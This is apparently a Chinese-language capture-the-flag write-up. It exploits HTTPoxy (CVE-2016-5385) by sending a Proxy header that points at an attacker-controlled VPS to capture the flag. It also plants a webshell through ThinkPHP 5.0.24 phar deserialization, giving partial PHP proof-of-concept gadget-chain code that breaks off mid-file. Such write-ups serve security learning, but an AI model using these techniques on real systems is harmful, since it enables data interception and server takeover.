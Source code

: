 ### 【Flag配送中心】

HTTPoxy漏洞（CVE-2016-5385）

VPS上监听对应端口后，在HTTP请求包中添加Proxy头：

```
Proxy: http://VPS:POST/
```

即可监听到Flag

### 【tp】

`thinkphp5.0.24` 反序列化

通过网上`poc` 生成`phar` 文件后，上传

然后变量覆盖，传入：`?FILES\[file\]\[name\]=phar://【上传的phar 文件名】`

触发`phar` 反序列化，生成`webshell`

**生成phar 的poc**

```
<?php
namespace think\process\pipes {
    class Windows {
        private $files = [];

        public function __construct($files)
        {
            $this->files = [$files]; 
        }
    }
}

namespace think {
    abstract class Model{
        protected $append = [];
        protected $error = null;
        public $parent;

        function __construct($output, $modelRelation)
        {
            $this->parent = $output; 
            $this->append = array("xxx"=>"getError");    
            $this->error = $modelRelation;   
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
        function __construct($output, $modelRelation)
        {
            parent::__construct($output, $modelRelation);
        }
    }
}

namespace think\model\relation{
    class HasOne extends OneToOne {

    }
}
namespace think\model\relation {
```